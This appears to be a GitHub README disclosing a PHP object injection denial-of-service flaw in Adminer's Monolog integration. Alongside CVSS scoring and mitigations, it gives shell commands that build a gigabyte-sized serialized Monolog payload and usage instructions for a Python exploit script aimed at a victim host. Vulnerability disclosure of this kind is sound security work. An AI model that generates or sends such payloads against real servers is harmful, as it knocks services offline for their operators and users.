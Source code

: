 # CVE-2025-43960 - PHP Object Injection in Adminer < 4.8.1 via Monolog - Denial of Service (DoS)

# Summary
This vulnerability allows remote, unauthenticated attackers to exploit Adminer 4.8.1 instances using Monolog, causing Denial of Service (DoS) through PHP Object Injection.
The attack vector requires no authentication or user interaction, making it a high-severity issue (CVSS 7.5) with potential to escalate to 8.6 in certain shared environments.

https://github.com/user-attachments/assets/78c285de-9478-4e9c-a8a2-1f8da918ef9e

## Suggested description
Adminer 4.8.1, when using Monolog for logging, allows a denial of service (memory consumption) via a crafted serialized payload such as one with an `s:1000000000` string, aka a PHP Object Injection issue. The vulnerability affects Adminer instances using Monolog for logging, where untrusted user input is deserialized without proper validation.
By sending a large deserialized object, an attacker can force high memory consumption, making the Adminer interface unresponsive and causing a server-wide DoS.

- While the server may recover after several minutes, multiple concurrent requests can cause a complete crash, requiring manual intervention to restore service.

### CVSS Score v3.1

**Base Score:** 7.5 (High)  
**Vector:** `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H`

**Note on specific deployments:**  
> If crashing Adminer also disrupts other services/tenants (e.g., container or shared process), **Scope: Changed** may apply:  
> - **Vector:** `AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H`  
> - **Score:** 8.6 (High)  

## Additional Information

### Potential Mitigation Measures
- Avoid using `unserialize()` on untrusted data within Adminer and Monolog.
- Enforce memory limits (`memory_limit`) in PHP to prevent excessive resource consumption.
- Use `allowed_classes` in `unserialize()` to restrict deserialization of unauthorized classes.

## Vendor of Product
- Adminer

## Affected Product Code Base
- Adminer `< 4.8.1` (latest stable release at the time of testing)

## Affected Component
- Monolog integration in Adminer

### Problematic feature
- PHP Object Injection via `unserialize()`

### Potential affected area
- Any Adminer instance where Monolog-based logging is used

# Proof of Concept (PoC)

**Payload generation:**

```bash
head -c 1000000000 </dev/zero | tr '\0' 'D' > filler.txt
```

```bash
echo 'O:32:"Monolog\\Handler\\SyslogUdpHandler":2:{
   s:9:"*socket";r:2;
   s:10:"*handler";s:1000000000:"'$(cat filler.txt)'";
 }' > payload.txt
```

Impact:
- The server enters a loading state, making Adminer inaccessible.
- The frontend disappears completely while the connection is active.
- When the attack stops, the server recovers after a few minutes unless multiple machines are used (DDoS scenario).

# Installation Requirements
- Python: Make sure you have Python 3.x installed. You can check this by running python3 --version in your terminal.

## Python Dependencies
- Flask: Used to run the local HTTP server that serves the payload.
- requests: Used to interact with the target application during the exploit process.

### Install
```
git clone https://github.com/far00t01/CVE-2025-43960
cd CVE-2025-43960 
pip install -r requirement.txt
python3 cve-2025-43960.py
```

## Usage:
```
python3 cve-2025-43960.py 

Usage: cve-2025-43960.py <ip-listener> <port-listener> <ip-victim:port>
Example: python3 cve-2025-43960.py 198.51.100.11 80 203.0.113.11:8000
```

### References

- https://www.adminer.org
- https://github.com/vrana/adminer
- https://github.com/Seldaek/monolog
- https://www.cvedetails.com/product/44183/Adminer-Adminer.html?vendor_id=17755
- https://cwe.mitre.org/data/definitions/502.html
- https://cwe.mitre.org/data/definitions/400.html
- https://cwe.mitre.org/data/definitions/789.html

### Discoverer
Fabian Rosales (@far00t01)
[Medium](https://https://medium.com/@far00t01/).

